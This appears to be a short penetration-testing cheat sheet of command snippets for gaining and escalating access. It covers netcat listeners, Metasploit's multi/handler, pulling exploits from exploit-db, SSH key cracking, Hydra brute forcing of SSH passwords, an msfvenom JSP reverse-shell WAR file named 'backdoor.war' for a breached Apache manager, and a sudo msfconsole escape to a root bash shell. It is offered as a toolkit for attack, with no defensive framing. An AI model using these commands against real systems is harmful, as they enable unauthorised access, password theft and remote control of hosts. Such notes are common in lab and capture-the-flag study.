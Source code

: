 
## Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

## Find Exploits with SearchSploit

```
searchsploit servicename version
```

## Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



## Metadata

```
exiftool file
```

## Web Server:

```
python3 -m http.server PORT
```

Retrieve:
```
wget http://IP:PORT/PATH
```

# SSH

## SSH with RSA file

```
ssh -i /path/to/file user@IP
```
## Convert id_rsa to crackable

```
python3 /usr/share/john/ssh2john.py id_rsa > file.txt
```

### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


# Apache

## After /manager breach

### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```


## Sudo Metasploit exploit

```
sudo msfconsole
```

```
irb
system("/bin/bash")
```
